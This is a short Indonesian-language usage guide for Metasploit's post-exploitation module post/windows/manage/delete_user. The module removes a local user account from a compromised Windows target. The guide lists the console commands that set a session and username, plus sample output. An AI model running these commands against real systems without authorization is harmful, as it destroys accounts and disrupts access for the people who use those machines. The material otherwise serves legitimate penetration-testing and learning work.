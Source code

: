 # delete_user

Modul `delete_user` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk menghapus akun pengguna lokal dari komputer target. 

## Cara Penggunaan di Metasploit

```
use post/windows/manage/delete_user
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] User was deleted!
[*] Post module execution completed
```
